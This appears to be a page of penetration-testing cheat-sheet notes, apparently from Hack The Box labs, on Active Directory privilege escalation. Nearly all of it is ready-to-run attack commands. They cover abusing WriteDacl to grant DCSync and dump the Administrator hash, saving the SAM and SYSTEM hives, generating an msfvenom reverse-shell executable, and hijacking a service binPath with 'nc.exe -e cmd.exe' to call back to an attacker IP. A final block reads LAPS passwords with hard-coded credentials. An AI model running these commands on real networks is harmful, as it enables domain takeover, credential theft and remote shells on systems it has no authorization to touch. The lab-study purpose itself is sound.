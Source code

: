 #### WriteDacl Exploitation

I discovered this path in BloodHound.

```bash
$SecPassword = ConvertTo-SecureString 'Hacker123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hacker', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
lsadump::dcsync /domain:htb.local /user:Administrator
# Or
/opt/windows/DCSync/DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local'  hackerAdministrator:Hacker123!
secretsdump.py htb.local/hacker:Hacker123\!@$ip
```

#### SeBackupPrivilege

```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system
```

#### SeRestorePrivilege

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.178 LPORT=443 EXITFUNC=thread -f exe > binary.exe
upload binary.exe
sudo nc -lvnp 80
.\SeRestoreAbuse.exe "cmd /c C:\windows\tasks\binary.exe"
```

#### Exploiting Service Operators Group Membership

```bash
services # look for True
upload nc.exe
sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
nc -lvnp 1234
```

#### ForceChangePassword


#### Read LAPS

```bash
# Valid credentials for your user that you have a shell with
$SecPassword = ConvertTo-SecureString 'get_dem_girls2@yahoo.com' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\nikk37', $SecPassword)
Get-DomainObject DC -Credential $Cred -Properties "ms-mcs-AdmPwd",name
#Get-ADComputer DC -Properties ms-msc-admpwd
```
